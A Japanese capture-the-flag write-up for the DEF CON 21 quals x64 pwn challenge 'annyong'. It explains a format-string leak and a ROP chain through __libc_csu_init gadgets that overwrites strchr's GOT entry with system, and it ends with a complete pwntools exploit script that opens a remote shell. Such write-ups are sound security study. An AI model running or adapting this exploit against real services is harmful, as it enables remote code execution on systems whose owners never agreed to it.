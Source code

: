 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/02/21/defcon-21-quals-annyong/
date: 2016-02-21T04:42:03+09:00
tags: [ "ctf", "writeup", "pwn", "defcon", "x64", "return-oriented-programming", "return-to-vuln", "libc-csu-init", "buffer-overflow" ]
---
```


# defcon 21 quals annyong

pwn会で。x64のrop問で解きたいものがあるが難しいので、その踏み台として持ってきたもの。

## [annyong](http://shell-storm.org/repo/CTF/Defcon-21-quals/annyong/)

### 準備

``` sh
$ file annyong
annyong: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=53cd09f49e09b946a74a1b345555bef4bce1f87a, stripped
$ checksec --file annyong
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   annyong
```

x64のrop。DEP PIEあり。RELRO SSPなし。libcなし。
使われていない関数がいくらかあるが、それらを除くと以下だけの小さなバイナリ。

``` c
#include <stdio.h>
#include <string.h>

void vuln(void) {
    char buf[0x800]; // rbp-0x810
    int done = 0; // rbp-0x4
    while (done != 0) {
        fgets(buf, 0x900, stdin); // buffer overflow
        if (strchr(buf, 'n')) {
            puts( "I don't think so...");
        } else {
            printf(buf); // format string atttack
            fflush(stdout);
        }
    }
}

int main(void) {
    vuln();
}
```

### 攻撃

1.  まず`printf`によるformat文字列攻撃で準備。
    -   `n`があると怒られるので読み取りしかでない。
2.  本命`fgets`によるbuffer-overflowからのrop。
    -   `__libc_csu_init`を使う。
        -   [x64でROP stager + Return-to-dl-resolve + \_\_libc\_csu\_init gadgetsによるASLR+DEP回避をやってみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/07/31/010158)
    -   `strchr`のgotに`system`のそれを書き込んで戻ってくる。
    -   書き込みには`read`を使う。
3.  `fgets`に`/bin/sh\0\n`を送ると`strchr`経由で`system("/bin/sh", "n")`が叩かれてshellが起動。
    -   直接ropで`system`しないのは第1引数に大きな値を渡せないから。(`mov edi, r13d`であるため)

### 実装

`__libc_csu_init`注意点

-   `__libc_csu_init`の末尾で実質的にpopするのは`[rsp+0x8]`からなので8byteの埋め草が要ること。
-   `call r12`でなく`call [r12]`であること。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
parser.add_argument('--leak-libc')
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./annyong')
vuln_ofs = 0x108c
buf_rbpofs = 0x810 # buf is at rbp-0x810
buf_ix = 6 # buf is shown by %6$p
libc_csu_init_a_ofs = 0x1180
libc_csu_init_b_ofs = 0x1196

p = remote(args.host, args.port)

p.sendline('%%%d$p %%%d$p' % (buf_ix + buf_rbpofs / 8, buf_ix + buf_rbpofs / 8 + 1))
saved_rbp, ret = map(lambda x: int(x, 16), p.recvline().split())
rbp = saved_rbp - 0x10  # main+0, push rbp
bin_base = ret - 0x1127 # main+0x9
log.info('current rbp: ' + hex(rbp))
log.info('bin base: ' + hex(bin_base))
buf = rbp - buf_rbpofs

s = ''
while len(s) < 8:
    p.sendline('%7$sABCD' + p64(bin_base + elf.got['__libc_start_main'] + len(s)))
    s += p.recv().split('ABCD')[0] or '\0'
libc_start_main = u64(s[:8])
log.info('__libc_start_main: ' + hex(libc_start_main))

if True:
    libc = ELF('/usr/lib64/libc.so.6')
    libc_base = libc_start_main - libc.symbols['__libc_start_main']
    system_ofs = libc.symbols['system']

if args.leak_libc:
    l, r = map(int, args.leak_libc.split(','))

    payload = ''
    payload += '\0'
    payload += 'A' * (buf_rbpofs - len(payload)) # buf, break-flag
    payload += 'A' * 8 # rbp
    payload += p64(bin_base + libc_csu_init_b_ofs)
    payload += 'A' * 8
    payload += p64(0) # rbx
    payload += p64(1) # rbp
    payload += p64(bin_base + elf.got['write']) # r12 -> call [r12]
    payload += p64(1) # STDOUT_FILENO # r13 -> edi
    payload += p64(libc_start_main + l) # r14 -> rsi
    payload += p64(r - l) # r15 -> rdx
    payload += p64(bin_base + libc_csu_init_a_ofs) # ret
    p.sendline(payload)
    print p.recvall()

else:
    payload = ''
    payload += 'A' * buf_rbpofs # buf, break-flag
    payload += 'A' * 8 # rbp
    payload += p64(bin_base + libc_csu_init_b_ofs)
    payload += 'A' * 8
    payload += p64(0) # rbx
    payload += p64(1) # rbp
    payload += p64(bin_base + elf.got['read']) # r12 -> call [r12]
    payload += p64(0) # STDIN_FILENO # r13 -> edi
    payload += p64(bin_base + elf.got['strchr']) # r14 -> rsi
    payload += p64(8) # r15 -> rdx
    payload += p64(bin_base + libc_csu_init_a_ofs) # ret
    payload += 'A' * 8 * 7
    payload += p64(bin_base + vuln_ofs) # ret
    p.sendline(payload)

    time.sleep(0.1)
    p.send(p64(libc_base + system_ofs))

    time.sleep(0.1)
    p.sendline('/bin/sh\0')

    time.sleep(0.1)
    p.sendline('ls')
    p.interactive()
```

